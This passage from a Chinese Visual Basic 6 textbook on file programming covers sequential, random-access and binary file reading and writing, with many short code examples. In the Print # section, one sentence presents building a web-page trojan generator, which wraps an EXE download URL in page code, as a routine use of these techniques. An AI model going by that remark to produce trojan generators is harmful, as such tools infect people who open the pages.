此时，使用记事本可以打开文件，然而，等我们修改文本后保存时，却会得到提示“不能创建文件 D:\Temp3\1111.txt，文本的写入被锁定”，如图2-8所示。

> 注意：上面的文件号我们设置成 1，是因为程序中还没有打开其他文件，第一个可用的文件号就是 1。如果不知道第一个可用的文件号是几，就可以使用 FreeFile 函数返回，例如使用下面的代码：

```vb
Dim FreeNum As Integer
FreeNum = FreeFile
Open "D:\Temp3\1111.txt" For Input Access Read Lock Write As #FreeNum
```

图2-8 Lock Write 打开文件后锁定文件不可写

如果我们使用的文件号已被使用，则会发生错误。请看下面的代码，已经使用 1 这个文件号，而在新打开文件时，再次使用文件号 1：

```vb
Open "D:\Temp3\1111.txt" For Input Access Read Lock Write As #1
Open "D:\Temp3\2222.txt" For Input Access Read Lock Write As #1
```

此时会出现错误提示“文件已打开”，如图2-9所示。如果要使用这个文件号，必须先把之前打开的文件关闭（使用语句：`Close #文件号`）。上面的代码可以修改为：

图2-9 使用已被使用的文件号打开文件

```vb
Open "D:\Temp3\1111.txt" For Input Access Read Lock Write As #1
Close #1
Open "D:\Temp3\2222.txt" For Input Access Read Lock Write As #1
```

此时，因为之前打开的文件已经关闭，所以不会出现错误。关闭文件时使用语法：`Close #文件号`。当然，使用 `Close 文件号` 也是可以的。我们建议大家在文件号前面加一个“#”。在使用 Close 语句关闭文件时，如果不指定文件号，则会关闭所有已打开的文件。下面的例子使用 Close 语句来关闭所有为 Output 而打开的三个文件：

```vb
Dim I, FileName
For I = 1 To 3
    FileName = "TEST" & I
    Open FileName For Output As #I
    Print #I, "This is a test."
Next I
Close
```

上面的代码中，`Print #1, "This is a test."` 用于将一行文字 “This is a test.” 写入文件号为 1 的这个文件中。关于 Print 语句，后面会有详细介绍，大家暂不必深究。

#### 2. 顺序文件的读操作

涉及到顺序文件的读写方面，我们就必须介绍几个函数了，它们分别是：Lof、Eof、Seek、Loc。

##### a) Lof 函数

Lof 函数用于返回已打开文件的大小，单位是字节。它的基本形式是：`Lof(文件号)`，函数返回值是文件的字节数。这里文件号即我们打开文件时所指定的文件号。例如，我们需要获取文件 `D:\Temp3\1111.txt` 的字节大小，就可以使用代码：

```vb
Open "D:\Temp3\1111.txt" For Input Access Read Lock Write As #1
MsgBox LOF(1)    ' 提示文件的大小，字节数
Close #1
```

##### b) Eof 函数

Eof 函数用于返回一个逻辑值，指示文件的光标是否到达了文件的结尾处（此时文件以 Random 或顺序 Input 打开），使用 EOF 是为了避免因试图在文件结尾处进行输入而产生的错误。它的基本形式是：`Eof(文件号)`。

Eof 函数在逐行读取一个文件时使用较多，下面简单举例说明，我们读取一个文件的最后一行：

```vb
Dim LastLine As String    ' 声明一个字符串变量
' 打开当前目录下的 1111.txt
Open App.Path & "\1111.txt" For Input Access Read Lock Write As #1
While Not EOF(1)
    Line Input #1, LastLine    ' 如果还没有到文件尾，则读入一行字符串到 LastLine 变量中
Wend
Close #1
MsgBox "最后一行的内容是：" & LastLine    ' 提示最后一行的内容
```

上面的代码中，`Line Input #1, LastLine` 用于从文件号为 1 的文件中读取一行字符串到变量 LastLine 中，后面我们会有相关介绍。

##### c) Seek 函数

该函数用于返回一个使用 Open 语句打开的文件中，光标所在的位置。也就是说，文件中当前读写的位置。在操作顺序文件时，函数返回下一个操作将要发生时所在的字节位置。它的基本形式是：`Seek(文件号)`。请看下面的代码，我们从文本中读入一行，现在操作的位置应该是第二行，函数就可以返回其字节位置：

```vb
Open App.Path & "\1111.txt" For Input As #1    ' 以 Input 模式打开程序目录下的 1111.txt
Line Input #1, thisline                         ' 读入一行字符串到 thisline，那么光标移动到第二行
MsgBox "下一个操作将要发生的字节位置是：" & Seek(1)
Close #1
```

这个函数在操作随机文件时是很有用的，后面介绍随机文件的读写时将介绍到。

介绍完上面的几个函数，我们来看怎样使用 Input # 语句、Input 函数和 Line Input # 语句读取文件中的内容到变量中。

##### A. 使用 Input # 语句

使用 Input # 语句可以从已打开的顺序文件中读取数据，并将数据指定给变量。它的基本形式是：`Input # 文件号, 变量1[,变量2,变量3…]`。例如，我们新建一个文本文件 test.txt，并在文件中写入下面的文本：`"《黑客手册》",10`。请注意，《黑客手册》的两边是加双引号的。此时，可以使用 Input # 语句将这两个数据分别读入两个变量中：

```vb
Open App.Path & "\test.txt" For Input As #1        ' 打开 test.txt 文件
Dim Magazine As String, Price As Integer           ' 声明字符串变量 Magazine，整型变量 Price
Input #1, Magazine, Price                          ' 将输入分别读入到 Magazine 和 Price
Close #1                                           ' 关闭文件
MsgBox "杂志名称是：" & Magazine
MsgBox "卖价是：" & Price
```

运行上面的代码，结果如图2-10和2-11所示，我们成功地将数据读入了变量。可以看到，我们使用 Input # 读入数据时，文本中的数据是采用逗号分隔读入到多个变量中的。从图2-10可以看出，尽管我们在文件中使用了双引号把字符串括起来，但是读入变量后会自动去掉这对双引号。当然，我们在文件中不使用双引号也是允许的。记住，使用 Input # 语句时，逗号是可以作为数据的分隔符的。例如下面的这段字符就可以被读入 3 个变量中：`"《黑客手册》",10,"《黑客手册》杂志社"`。

> 提示：文件中的双引号必须是英文输入的双引号，如果是使用中文输入法输入则不行。

##### B. 使用 Input 函数

使用 Input 函数可以从顺序文件中返回任意数量的字符到指定的变量中。它与 Input # 语句的不同之处在于，Input 函数返回它所读出的所有字符，包括逗号、回车符、空白列、换行符、引号和前导空格等。它的基本形式是：`Input(字符数, [#]文件号)`。参数“字符数”表示需要返回到变量的字符数量。函数的返回值是读取的字符。简单举例说明，我们从当前目录下的 test.txt 文件中读取前 10 个字符到变量 MyStr 中：

```vb
Dim MyStr As String                           ' 声明一个字符串变量
Open App.Path & "\test.txt" For Input As #1  ' 打开文件
MyStr = Input(10, #1)                         ' 读入前10个字符到变量 MyStr 中
Close #1                                      ' 关闭文件
MsgBox MyStr                                  ' 提示 MyStr 的值
```

这里，我在 test.txt 这个文件中写入了内容：

```text
《黑客手册》
Www.Nohack.Cn
```

程序运行后的结果如图2-12所示。

> 提示：可能有些人会有疑问了，这里所有的字符加起来，才有 8 个呀，怎么会是前 10 个字符呢？这是因为换行符其实是表示为 Chr(13) & Chr(10) 的，也就是说，一个换行符其实是占两位字符。

图 2-12 使用 Input 函数读入前 10 个字符

大家在编程的时候一定要注意这一点；每读入一个换行符，都会增加两个字符数。

我们知道，第一行的前 6 个字符是“《黑客手册》”，那么现在我们来获取第 7 个字符，看看它到底是什么呢？是不是我所说的 Chr(13) 呢？请看下面的代码：

```vb
Dim MyStr As String            ' 声明一个字符串变量
Open App.Path & "\test.txt" For Input As #1   ' 打开文件
MyStr = Input(6, #1)           ' 读入前6个字符到变量MyStr中
MyStr = Input(1, #1)           ' 读入第7个字符到变量MyStr中
Close #1                       ' 关闭文件
MsgBox Asc(MyStr)              ' 提示第七个字符的ASCII码
```

图 2-13 获取第七个字符的 ASCII 码

在上面的代码中，我们先读入了前 6 个字符到变量 MyStr 中，然后又读入第 7 个字符将 MyStr 变量的值覆盖。最后，我们取第 7 个字符的 ASCII 码，其运行后如图 2-13 所示。

可以看到，确实是 13 哦。同样的道理，我们稍微修改一下代码，就可以获取第八个字符的 ASCII 码，经过测试，确实是 10。这也就证实了我之前所陈述的内容：换行符表示为 Chr(13) & Chr(10)，占两位字符。

### C 使用 Line Input # 语句

使用 Line Input # 语句可以从顺序文件中读入一行字符并将它分配给字符串变量。它的基本形式是：Line Input # 文件号, 变量名。大家注意，这里读入的时候，是不会读入回车换行符的。Line Input # 语句一次只从文件中读出一行字符，直到遇到回车符（Chr(13)）或回车换行符（Chr(13)+Chr(10)）为止。回车换行符将被跳过，而不会被附加到字符串上。例如，我们需要读入文本文件中的第二行文字，就可以使用下面的代码：

```vb
Dim ThisLine As String                         ' 声明一个字符串变量
Open App.Path & "\test.txt" For Input As #1   ' 打开文件
Line Input #1, ThisLine                        ' 读入第一行文本
Line Input #1, ThisLine                        ' 读入第二行文本
Close #1                                       ' 关闭文件
MsgBox "文本中的第二行内容是：" & ThisLine      ' 提示第二行的内容
```

在上面的代码中，我们首先读入了第一行的字符串到变量 ThisLine 中，然后我们再读入第二行的字符串到 ThisLine 中，并覆盖了之前的内容，因此最终得到的是第二行的内容。

上面我们介绍了三种方式读取顺序文件，下面介绍一下怎样读取一个文件中的所有内容。首先使用 Input 函数来读取一个文件中的所有内容，请看示例：

```vb
Open App.Path & "\test.txt" For Input As #1      ' 打开文件
Dim StrAll As String, Str As String               ' 声明两个字符串变量

While Not EOF(1)
    Str = Input(1, #1)
    StrAll = StrAll & Str
Wend

Close #1
MsgBox StrAll
```

- 循环直到文件尾
- 每次获取一个字符
- 将这个字符追加到 StrAll 中
- 关闭文件
- 提示文件的所有内容

在上面的代码中，字符串变量 Str 用于存储读取的一个字符，而 StrAll 则用于存储文件的所有内容。Not EOF(1) 表明文件还没有到达文件尾，继续执行中间的代码直到文件尾。Input(1,#1) 每次从文件中获取一个字符并返回给变量 Str。之后，我们将 Str 追加到字符串 StrAll 中，等到循环结束，就可以得到文件的所有内容了。

但是，大家可能也感觉到了，这样依字符一个一个地读取真的很麻烦呢！所以，我们再来看看逐行读取吧：

```vb
Open App.Path & "\test.txt" For Input As #1
Dim ThisLine As String, StrAll As String
While Not EOF(1)
    Line Input #1, ThisLine
    StrAll = StrAll & ThisLine & Chr(13) & Chr(10)
Wend
Close #1
MsgBox StrAll
```

- 打开文件
- 声明两个字符串变量
- 循环直到文件尾
- 读取一行内容到变量 ThisLine
- 将一行内容追加到 StrAll
- 关闭文件

逐行读取可以减少循环的次数，提高程序的效率。上面的代码中，我们在每次追加内容到 StrAll 变量中时，都会加上 Chr(13) & Chr(10)。这是因为使用 Line Input # 语句读取一行内容时不会读取行末的换行符，必须我们自己加上才会换行。这一点，前面已经提过，请大家在编码的时候注意。

# 第二章 文件编程

### 3．顺序文件的写操作

顺序文件的读操作我们就介绍到这里，下面介绍顺序文件的写操作。这里主要涉及到 Print 语句、Write 语句等。在进行写入操作时，应该以 Output 或者 Append 方式打开文件。若以 Append 方式打开文件，则进行追加内容的操作。

### a）使用 Print # 语句

Print 语句可以将格式化显示的数据写入顺序文件中。它的基本形式是：Print # 文件号，[表达式1，表达式2……]。这里表达式是可选的参数，如果省略表达式，则会输出一个空白行。简单举例说明，我们需要向一个文件中写入一行文字“《黑客手册》是非安全旗下的一本杂志”，则可以使用代码：

```vb
Open App.Path & "\test.txt" For Output As #1
Print #1, "《黑客手册》是非安全旗下的一本杂志"
Close #1
```

- 打开文件
- 写入文件
- 关闭文件

上面的代码非常简单，直接将一个字符串写入了文件。我们也可以将一个字符串变量的值写入文件。请注意，这里是以 Output 方式打开文件的，如果文件不存在，则会自动创建之。下面将一个字符串变量的值写入文件：

```vb
Private Sub Form_Load()
    Open App.Path & "\test.txt" For Output As #1    ' 打开文件
    Dim Str As String                                ' 声明字符串变量
    Str = "《黑客手册》是非安全旗下的一本杂志"      ' 为字符串变量赋值
    Print #1, Str                                    ' 写入文件
    Close #1                                         ' 关闭文件
End Sub
```

这里特别对逻辑值的输出作一下说明。对于 Boolean 类型的数据，打印的是 True 或 False。无论在什么国家或地区，都不将 True 和 False 这两个关键字翻译出来，不会因为你使用汉语就打印为真或假。下面举例说明：

```vb
Open App.Path & "\test.txt" For Output As #1   ' 打开文件
Dim var1 As Boolean                              ' 声明一个逻辑变量
var1 = 1                                         ' 初始赋值为 1，转换为 True
Print #1, var1                                   ' 输出变量到文件
Close #1                                         ' 关闭文件
```

这里打印出来的最终结果是 True，因为非 0 值转换为 Boolean 值为 True，它不会打印出“真”或“成立”的字样，只会是“True”。

> **注意：** 如果省略参数表达式，而且文件号之后只有一个列表分隔符，则将一空白行打印到文件中，例如：`Print #1,`。多个表达式之间可用一个空白或一个分号隔开。空白与分号是等效的，例如：`Print #1, a,b` 和 `Print #1; a;b` 就是等效的哦！

> **注意：** 如果表达式的数据是 Empty，则不将任何数据写入文件。但如果表达式的数据是 Null，则将 Null 写入文件。我们来看一下 Empty 和 Null 的定义：

**Empty**：指出尚未对 Variant 变量指定初始值。用数值表示时，以 0 表示 Empty 变量；在字符串表示时，则以零长度字符串（`""`）表示它。

**Null**：一个值，指示变量不含有效数据。Null 是将 Null 显式赋值给一变量的结果，或者是包含 Null 的表达式之间的任何运算。

我们来看在输出到文件时常用的两个函数。

- `Spc(n)`：用来在输出数据中插入空白字符，而 `n` 指的是要插入的空白字符数。
- `Tab([n])`：用来将插入点定位在某一绝对列号上，这里 `n` 是列号。使用无参数的 `Tab` 将插入点定位在下一个打印区的起始位置。

我们来看两个例子吧：

```vb
Open App.Path & "\test.txt" For Output As #1   ' 打开文件
Print #1, "AA"; Spc(5); "BB"
Close #1                                         ' 关闭文件
```

上面的例子中，我们使用了分号来分隔几个表达式。当分号作为分隔符时，是直接将分隔符两端的表达式连接并打印的。上面的例子输出的最终结果是：

```text
AA    BB
```

在输出结果中，AA 和 BB 之间有 5 个空格，也就是说，输出了 5 个空白字符。再来看一看 Tab 函数的使用：可选的参数 n 是在显示或打印列表中的下一个表达式之前移动的列数。若省略此参数，则 Tab 将插入点移动到下一个打印区的起点。这就使 Tab 可用来替换国别中的逗号，此处，逗号是作为十进制分隔符使用的。请看下例：

```vb
Open App.Path & "\test.txt" For Output As #1        ' 打开输出文件
Print #1, "Hello", Tab(10); "World."                ' 第二个字输出到第 10 列
Close #1                                             ' 关闭文件
```

运行后，第二个字符串“World.”将被输出到第 10 列，因为 Hello 占用了 5 位字符，因此“Hello”和“World.”之间的空白字符数是 4 个。输出到文件的结果是：

```text
Hello    World.
```

下面我们示例将一个文本框（TextBox）中的内容输出到文件中，包括换行符。首先在窗体中画一个 TextBox，将其 MultiLine 属性设置成 True（可以多行显示），然后在 TextBox 的 Text 属性中写入两行文本，分别是“《黑客手册》”、“www.nohack.cn”（提示：按住 Ctrl+Enter 可以直接换行）。为窗体载入事件添加代码：

```vb
Open App.Path & "\test.txt" For Output As #1        ' 打开文件
Print #1, Text1.Text                                 ' 输出 Text1 中的内容到文件
Close #1                                             ' 关闭文件
```

在编写网页木马生成器的时候，因为只需要更改 Exe 文件的地址，所以我们一般是把 URL 两边的代码分别放在 Text1 和 Text2 中，然后将 Text1、Exe 文件地址、Text2 三者合并，再输出到文件。生成器的编写是很简单的，但是网页木马的编写就不那么简单了。

### b）使用 Write # 语句

Write # 语句也可以将数据写入顺序文件。它的基本形式是：Write # 文件号，[表达式1，表达式2……]。通常用 Input # 从文件读出 Write # 写入的数据。

用 Write # 将数据写入文件时将遵循几个通用的约定，使得无论什么国家或地区都可用 Input # 读出并正确解释数据：

- 在写入数值数据时总使用逗号作为十进制分隔符。
- 对于 Boolean 类型的数据，打印 #TRUE# 或 #FALSE#。无论在什么地区，都不将 True 和 False 这两个关键字翻译出来。
- 使用通用的日期格式将 Date 类型的数据写入文件中。当日期或时间的部件丢失或为零时，只将现有部分写入文件中。
- 如果表达式的数据为 Empty，则不将任何数据写入文件。但对 Null 数据，则要写入 #NULL#。
- 对于 Error 类型的数据，输出看起来与 #ERROR errorcode# 一样。无论在什么地区，都不将关键字 Error 翻译出来。

与 Print # 语句不同，当要将数据写入文件时，Write # 语句会在项目和用来标记字符串的引号之间插入逗号。没有必要在列表中键入明确的分界符。Write # 语句在将表达式中的最后一个字符串写入文件后会插入一个新行字符，即回车换行符（Chr(13)+Chr(10)）。我们来看一个例子，使用 Write # 语句将行数据写入文件：

```vb
Open App.Path & "\test.txt" For Output As #1      ' 打开输出文件
Write #1, "Hello World", 234                       ' 写入以逗号隔开的数据
Write #1,                                          ' 写入空白行

Dim MyBool As Boolean, MyDate As Date, MyNull, MyError
' 下面赋值 Boolean、Date、Null 及 Error 等
MyBool = False: MyDate = #2/12/1969#: MyNull = Null
MyError = CVErr(32767)
' Boolean 数据以 #TRUE# 或 #FALSE# 的格式写入。
' 日期以通用日期格式写入，例如：#1994-07-13# 代表
' 1994 年 7 月 13 日。Null 数据以 #NULL# 格式写入。
' Error 数据以 #ERROR 错误代号# 的格式写入。
Write #1, MyBool, " is a Boolean value"
Write #1, MyDate, " is a date"
Write #1, MyNull, " is a null value"
Write #1, MyError, " is an error value"
Close #1                                           ' 关闭文件
```

上面的代码运行后输出到 test.txt 的内容是：

```text
"Hello World",234

#FALSE#," is a Boolean value"
#1969-02-12#," is a date"
#NULL#," is a null value"
#ERROR 32767#," is an error value"
```

可以看出，字符串两边保留有双引号，而在字符串和数字之间，自动加上了逗号分隔符，这样就可以很方便地使用 Input # 语句来读取数据了。一般，使用 Write # 语句写入文件的数据，可以使用 Input # 语句来读取，请大家注意一下。

Print # 语句和 Write # 语句介绍完了。刚才只说了以 Output 方式输出到文件，下面我们说说文件的追加操作，也就是以 Append 方式打开文件。首先新建一个 test.txt 文件，在其中写入一句“《黑客手册》”，注意不要输入完字符后按回车换行，编写下面的代码：

```vb
Open App.Path & "\test.txt" For Append As #1    ' 以 Append 方式打开文件
Print #1, "Www.Nohack.Cn"                        ' 追加到文件尾
Close #1                                         ' 关闭文件
```

我们来看看运行前后的 test.txt 里面的内容对比，如图 2-14 和 2-15 所示。我们在建立文件的时候没有输入回车换行符，追加内容后是直接连到字符串后面的，它们在同一行。如果我们在建立文件时按下了回车键换行，则运行后结果如图 2-16 所示。

好了，如果说我们想要在特定的一行里面插入内容怎么办呢？说实话，还真的不是非常好办呢。看一个简单的例子，有一个文本，它的内容如下：- 第一行
- 第三行
- 第四行
- 第五行

我们把字符串“第二行”插入到第二行中，可以使用代码：

```vb
Open App.Path & "\\test.txt" For Input As #1        ' 以 Input 方式打开文件
Dim ThisLine(255) As String                          ' 声明字符串数组
i = 1                                                ' 数组索引值 i 初始为 1
' 下面循环将所有的文本行读入到数组中
While Not EOF(1)
    Line Input #1, ThisLine(i)
    i = i + 1
Wend
Close #1

Open App.Path & "\\test.txt" For Output As #1       ' 以 Output 方式打开文件
Print #1, ThisLine(1)                                ' 先把第一行输出到文件
Print #1, "第二行"                                     ' 输出插入的内容
i = 2
While ThisLine(i) <> ""
    Print #1, ThisLine(i)                            ' 循环写入剩下的内容
    i = i + 1
Wend
Close #1
```

代码看起来有点长呢，我来解释一下。首先，由于我们无法直接得到文件的行数，就声明了一个较大的数组，256 个元素哦（从 0 到 255），用于存放每一行的字符串。接着，我们关闭了文件，以 Output 方式打开文件，写入原来第一行的内容，再写入需要追加的第二行的内容。因为是以 Output 方式打开的，原来的内容已经被覆盖了。最后，我们把原来第二行以后的内容输出到文件里。经过这样一轮操作，需要插入的内容就被写入第二行了。感觉是有一点麻烦的，在 VB 中插入文本行可不是那么容易的，没有现成的函数可以直接使用。当然，我们可以自己写一个自定义函数来实现，大家可以尝试把上面的代码修改成一个自定义函数 InsertLine，算是一个作业吧！

### 2.3.2 使用随机文件访问方法

随机文件中的数据记录是有固定长度的，每一条记录都是由各个元素组成的。打开一个随机文件之前，应该首先定义类型，这个类型中的元素对应于文件中所包含的各项数据。例如，我们定义一个 User 的数据类型：

```vb
Private Type User
    UserName As String * 10
    PassWord As String * 6
    Level As String * 4
End Type
```

因为随机访问文件中的所有记录都必须有相同的长度，所以固定的长度对用户定义类型中的各字符串元素通常很有用，上面类型 User 中的 UserName 的长度固定为 10。  
如果实际字符串包含的字符数比我们规定的固定长度少，则 VB 会用空白（字符代码 32）来填充记录中后面的空间。如果字符串比字段的尺寸长，则它就会被截断，只截取我们所规定的长度。

### a）打开随机文件

打开随机文件使用 Open 语句，其基本形式是：`Open 文件路径 [For Random] As [#]文件号 Len=记录长度`。其中关键词 `For Random` 是可选的，其作为默认的打开方式，可以省略。记录长度是每个记录的字节长度，我们可以使用 `LenB` 函数来获取。下面示例打开程序目录下的 `test.txt` 文件：

```vb
Open App.Path & "\\test.txt" For Random As #1
```

如果省略 `For Random`，则可以使用：

```vb
Open App.Path & "\\test.txt" As #1
```

### b）向随机文件中写入记录

使用 `Put` 语句可以将记录写入一个随机文件中。其基本形式是：  
**Put #文件号，记录号，记录变量名。**  
下面我们举示例将两条记录写入文件：

```vb
' 先定义用户类型
Private Type User
    UserName As String * 10
    PassWord As String * 8
    Level As String * 8
End Type

Private Sub Form_Load()
    Dim user1 As User, user2 As User
    Open App.Path & "\\test.txt" For Random As #1 Len = LenB(user1)

    user1.UserName = "Nohack"
    user1.PassWord = "hacker"
    user1.Level = "管理员"

    user2.UserName = "lijiejie"
    user2.PassWord = "bingker"
    user2.Level = "普通用户"

    Put #1, 1, user1
    Put #1, 2, user2
    Close #1
End Sub
```

上面的代码运行后如图 2-17 所示，两条记录被写入了文件。

# 第二章 文件编程

分析一下，之前定义的类型中 UserName 的长度为 10，而 “Nohack” 只有 6 个字符，因此其后面有 4 个空字符填充。又因为一个中文字符占两个字节，所以“管理员”三个汉字占 6 个字节，我们定义的是 8 个字节，所以后面会剩下 2 个空白字符位。

图 2-18 数据本身长度超过定义的长度，截取定义的长度

如果我们给 user1 的字段 UserName 赋值为“超级管理员”，变为 `user1.Level = "超级管理员"`，最终得到的结果，不是“超级管理员”，而是“超级管理”，只截取了前 4 个汉字，因为我们只定义了 8 个字节，只能存储 4 个汉字，其结果如图 2-18 所示。

前面说了，Put # 语句的第二个参数是记录的编号，之前输出分别是编号 1 和编号 2，如果我们改变编号，会出现什么结果呢？改变输出语句：

```vb
Put #1, 1, user1
Put #1, 6, user2
```

图 2-19 Put # 语句中设置输出的记录编号

运行后如图 2-19 所示，是不是中间多了一些空白的记录了。

### c）从随机文件中读取记录

从随机文件中读取记录是通过 Get 语句，其基本形式是：`Get [#]文件号，[记录号]，变量名`。这里记录号表明我们想要读取的第几条记录。变量的类型应该跟文件的数据类型所对应。若省略记录号，则会读出紧随上一个 Get 或 Put 语句之后的下一个记录或字节（或读出最后一个 Seek 函数指出的记录或字节）。所有用于分隔的逗号都必须罗列出来，例如：

```vb
Get #4, , FileBuffer
```

例如，我们需要从图 2-18 所示的文本中读取第二条记录的值，就可以使用代码：

```vb
' 先定义用户类型
Private Type User
    UserName As String * 10
    PassWord As String * 8
    Level As String * 8
End Type

Private Sub Form_Load()
    Dim MyUser As User        ' 定义一个变量，为 User 类型
    Open App.Path & "\\test.txt" For Random As #1 Len = LenB(MyUser)
    Get #1, 2, MyUser         ' 读取第二条记录到 MyUser 变量
    Close #1
    MsgBox "第二条记录的UserName元素的值是：" & MyUser.UserName
    MsgBox "第二条记录的PassWord元素的值是：" & MyUser.PassWord
    MsgBox "第二条记录的Level元素的值是：" & MyUser.Level
End Sub
```

图 2-20 得到第二条记录 UserName 的值  
图 2-21 得到第二条记录 PassWord 的值  
图 2-22 得到第二条记录 Level 的值

上面的代码运行后如图 2-20、2-21 及 2-22 所示。

可以看到，正确得到了结果哦！需要注意的是，在打开文件时，一定不要忘记设置 Len 子句的值（是字节数哈，LenB，不是 Len 哦），否则可能无法得到正确的值。也就是说，这里记录的长度值一定要正确设置才能确保所得的值是正确的。

### d）从随机文件中修改记录

修改随机文件中的记录，只需要声明一个相同数据类型的变量，将变量的值修改之后再使用 Put # 语句写入该条记录即可。例如，我们需要修改图 2-18 中数据第二条记录的值，就可以使用下面的代码：

```vb
' 先定义用户类型
Private Type User
    UserName As String * 10
    PassWord As String * 8
    Level As String * 8
End Type

Private Sub Form_Load()
    Dim NewUser As User
    Open App.Path & "\\test.txt" For Random As #1 Len = LenB(NewUser)
    NewUser.UserName = "Lucas"
    NewUser.PassWord = "Gohack"
    NewUser.Level = "贵宾账号"
    Put #1, 2, NewUser
    Close #1
End Sub
```

程序运行后如图 2-23 所示。大家对比一下图 2-18 就可以看到效果，是不是很方便？

### e）向随机文件中追加记录

追加记录的时候，我们只需要知道最后一条记录的编号是几，然后在最末编号的基础上加 1，使用 Put 语句写入文件即可。例如，我们知道文件中总共有 5 条记录，那么就只需要使用 `Put #1,6,ToAdd` 这样形式的代码就可以实现了。请大家看下面的代码：

```vb
' 先定义用户类型
Private Type User
    UserName As String * 10
    PassWord As String * 8
    Level As String * 8
End Type

Private Sub Form_Load()
    Dim ToAdd As User
    Open App.Path & "\\test.txt" For Random As #1 Len = LenB(ToAdd)
    ToAdd.UserName = "Guest"
    ToAdd.PassWord = "Pass"
    ToAdd.Level = "游客"
    Newnum = LOF(1) / LenB(ToAdd) + 1
    Put #1, Newnum, ToAdd
    Close #1
End Sub
' 关闭文件
```

可以看到，我们获取文件的总记录数是通过 `LOF(1)/LenB(ToAdd)`。`LOF(1)` 是返回文件的总字节数，而 `LenB(ToAdd)` 则返回单个记录的字节长度，所以它们相除的结果就是记录总数（提示：这里得到的其实是记录总数减去 0.5，因为最后一条记录其大小只有半个记录长度，使用 Put # 语句时，Newnum 被四舍五入了，例如我们的文件中总共有 5 条记录，使用 `LOF(1)/LenB(ToAdd)` 返回的值最终只会是 4.5）。使用图 2-18 中的文件运行后如图 2-24 所示，成功追加了第三条记录。

### f）删除随机文件中的某条记录

删除某条记录的方法可以将需要删除的记录之前的记录写入第二个文件，再把需要删除的记录之后的记录也写入第二个文件，最后，把原来的文件删除，将第二个文件重命名为原来的文件名即可。例如，我们有一个如图 2-25 所示的随机文件，它有 8 条记录。

至于为什么要用这么多条记录呢，是因为我们要处理那些记录数很多的文件，就需要用到循环，我用循环语句来为大家示例，我们删除第五条记录：

```vb
' 先定义用户类型
Private Type User
    UserName As String * 10
    PassWord As String * 8
    Level As String * 8
End Type

Private Sub Form_Load()
    Dim Record As User                 ' 声明变量 Record，为 User 类型
    Open App.Path & "\\test.txt" For Random As #1 Len = LenB(Record)   ' 打开文件1
    Open App.Path & "\\test2.txt" For Random As #2 Len = LenB(Record)  ' 打开文件2
    For i = 1 To 4                     ' 将前四条记录写入文件2
        Get #1, i, Record              ' 读入第 i 条记录到变量 Record
        Put #2, i, Record              ' 写入 Record 的值到文件2中
    Next i

    ' 下面将第6条记录之后的这些记录写入文件2
    For i = 6 To LOF(1) / LenB(Record) + 0.5
        Get #1, i, Record              ' 返回第 i 条记录的值到变量 Record
        Put #2, i - 1, Record          ' 将变量 Record 的值作为 i-1 条记录写入文件2
    Next i

    Close #1                           ' 关闭文件1
    Close #2                           ' 关闭文件2
End Sub
```

上面的代码中，为什么我们要在 `LOF(1)/LenB(Record)` 后面加 0.5 呢？前面说过了，这里最终返回的结果只会是 7.5，因为最后一条记录只算半个记录的字节长度。我们先将前 4 条记录写入了文件 2，然后又将第 6 至 8 条记录写入文件 2。当然了，大家需要注意，这里文件 1 中的第 6 条记录应该写入文件 2 的第 5 条记录。所以，记录号那里使用的是 i-1，而不是直接用 i。可能有人觉得删除记录理解起来会有一点难度啦，那么，请回过头去再看一遍，相信看懂是没有什么问题的！

作为示例，我们并没有将原来的文件替换，如果需要替换，添加两行代码即可：

```vb
Kill App.Path & "\\test.txt"      ' 删除原来的文件
Name App.Path & "\\test2.txt" As App.Path & "\\test.txt"    ' 将新文件重命名为原来的文件名
```

本来我还想给大家讲一下怎样向随机文件中插入记录的，事实上，只要大家把前面所讲的内容掌握好了，融会贯通一下，就很容易知道怎么插入一条记录了。这里不再深入讨论。算是给大家留下的一道思考题吧，好好考虑一下。很多时候，书上给出的东西不一定是全面的，甚至不一定是对的。所以，我们要用辩证的眼光看问题，尽信书不如无书，不是么？我在书里说的不一定是对的呢，如果聪明的你发现错误了，那可是我故意给大家设的错误哦（为自己找借口，哈哈），以此检验你是不是一个细心的读者。

### 2.3.3 使用二进制文件访问

二进制访问能提供对文件的完全控制，因为文件中的字节可以代表任何东西。例如，通过创建长度可变的记录可保存磁盘空间。当要保持文件的尺寸尽量小时，应使用二进制型访问。

> **注意：** 当把二进制数据写入文件中时，使用变量是 Byte 数据类型的数组，而不是 String 变量。String 被认为包含的是字符，而二进制型数据可能无法正确地存在于 String 变量中。

上面这段话大家读懂了吗？这段话来自 VB6.0 自带的帮助文档。它的意思是，使用二进制文件访问方法时，你应该把 Byte 数组存储的数据写入文件中，而不是直接把一个字符串写入文件。

### a）打开二进制型访问的文件

使用二进制文件访问打开文件时，同样是使用 Open 语句，它的基本形式是：`Open 文件路径 For Binary As 文件号`。

可以看到，二进制访问中的 Open 与随机存取的 Open 不同，它没有指定 `Len=记录长度`。如果在二进制型访问的 Open 语句中包括了记录长度，则被忽略。

### b）在长度可变的字段中保存信息

为了更好地了解二进制型访问，比如有一个雇员记录文件，这个文件用长度固定的记录和字段来存储雇员的信息。

```vb
Private Type Person
    ID              As Integer
    MonthlySalary   As Currency
    LastReviewDate  As Long
    FirstName       As String * 15
    LastName        As String * 15
    Title           As String * 15
    ReviewComments  As String * 150
End Type
```

# 第二章 文件编程

不管记录中字段的实际内容如何，该文件每条记录都占用 209 个字节。

问：为什么说是 209 个字节？

答：我们来计算一下。因为长度是固定的，加起来就可以了。ID 是 Integer 型，占 2 个字节；MonthlySalary 是 Currency 型，占 8 个字节；LastReviewDate 为 Long 型，4 个字节；FirstName、LastName、Title 都是占 15 个字节，而 ReviewComments 占 150 个字节。所以，最终结果是：2+8+4+3×15+150=209。

因为长度固定了，所以每条记录的长度都是 209，大家能够理解了吗？

通过使用二进制型访问可使磁盘空间的使用降到最小，因为这不需要固定长度的字段，类型声明语句可以省略字符串长度参数。

```vb
Private Type Person           ' 定义类型Person
    ID              As Integer
    MonthlySalary   As Currency
    LastReviewDate  As Long
    FirstName       As String
    LastName        As String
    Title           As String
    ReviewComments  As String
End Type

Dim Emp1 As Person            ' 定义记录
```

可以看到，上面的类型定义中，各个字段的长度都没有规定，例如 FirstName，就只声明了是 String 类型的。因为各字段长度是可变的，所以在雇员记录文件中，每个雇员记录只存储在精确所需的字节中。用长度可变字段来进行二进制输入／输出的缺点是不能随机地访问记录，必须顺序地访问记录以了解每一个记录的长度。可以直接查看文件中指定字节的位置，但是，如果记录的长度可变，则无法直接知道哪条记录在哪个字节处。

### c）二进制访问写入数据

